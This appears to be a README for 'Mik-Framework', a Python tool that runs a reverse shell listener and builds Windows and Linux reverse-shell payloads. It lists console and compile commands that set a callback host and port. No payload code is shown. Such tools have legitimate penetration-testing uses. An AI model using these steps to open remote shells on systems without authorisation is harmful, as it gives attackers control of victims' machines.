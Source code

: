 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```~/Mik-Framework $ python3 mikconsole.py```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```mik> use revshell```

2.  Configure the host and port:
```mik-revshell> set host 0.0.0.0```

```mik-revshell> set port 4545```

4. Run the server:
   ```mik-revshell> run```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw```

### Linux

To compile a payload for Linux, use the following command:

```python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
